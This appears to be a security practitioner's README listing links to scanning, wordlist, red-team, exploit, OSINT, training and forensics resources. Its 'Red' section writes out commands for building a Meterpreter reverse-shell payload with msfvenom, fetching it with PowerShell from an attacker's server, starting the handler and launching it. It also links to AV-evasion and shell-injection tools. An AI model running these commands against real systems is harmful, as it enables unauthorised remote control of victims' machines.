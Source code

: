 # TI-Collection
Wide collection of tools, links, informations

## Tools & Scripts
### Scanning
**Nmap Script Collection**
- https://github.com/emadshanab/Nmap-NSE-scripts-collection

### Lists
**Web**
- https://github.com/emadshanab/Huge_DIR_wordlist
- https://github.com/emadshanab/subs_all
- https://github.com/emadshanab/WordLists-20111129
- http://wordlists.assetnote.io/

### Red
**Online Reverse Shell generator**
- https://www.revshells.com/


*Create Payload with MSFVenom*
  msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

*Upload Payload via PS & Fileserver*
  powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"

*Open Meterpreter listener*
  use exploit/multi/handler 
  set PAYLOAD windows/meterpreter/reverse_tcp 
  set LHOST your-ip 
  set LPORT listening-port 
  run
  
* Start Process*
  Start-Process "shell-name.exe"
  
  *Spawn webserver*
  python3 -m http.server [PORT]

**Don't kill my cat** 
A tool that generates obfuscated shellcode that is stored inside of polyglot images. 
- https://github.com/Mr-Un1k0d3r/DKMC


**Malicious Macro Generator Utility**
Simple utility design to generate obfuscated macro that also include a AV / Sandboxes escape mechanism.
- https://github.com/Mr-Un1k0d3r/MaliciousMacroGenerator

Information about EDRs that can be useful during red team exercise like hooked DLLs etc.
- https://github.com/Mr-Un1k0d3r/EDRs

**Vulnx** is An Intelligent Bot Auto Shell Injector that detects vulnerabilities in multiple types of Cms
- https://github.com/anouarbensaad/vulnx



## PoCs & Exploits
**ShadowBroker Exploits & Tools**
- https://github.com/misterch0c/shadowbroker

**Wifi Fragattacks**
- https://github.com/vanhoefm/fragattacks

## OSINT
The **xCyclopedia** project attempts to document all executable binaries (and eventually scripts) that reside on a typical operating system. It provides a web page to view the data as well as a machine-readable format (JSON and CSV) that can be immediately usable in other systems such as SIEMs to enrich observed executions with contextual data.
- https://strontic.github.io/xcyclopedia/

**CyberChef**
- https://gchq.github.io/CyberChef/

**CyberChef Recipes**
- https://github.com/mattnotmax/cyberchef-recipes

# Trainings & Education

## Challenges
**CTFchallenge** is a collection of 12 vulnerable web applications, each one has its own realistic infrastructure built over several subdomains containing vulnerabilities based on bug reports, real world experiences or vulnerabilities found in the OWASP Top 10.
- https://ctfchallenge.com/


## Trainings

- https://0xdarkvortex.dev/

## Cheat Sheets

### Privilege Escelation
Cheatsheet aimed at CTF Players and Beginners to help them understand the fundamentals of Privilege Escalation with examples.
- https://github.com/Ignitetechnologies/Privilege-Escalation

# Forensics
## Data Analytics
**PcapXray**
A Network Forensics Tool - To visualize a Packet Capture offline as a Network Diagram including device identification, highlight important communication and file extraction
- https://github.com/Srinivas11789/PcapXray

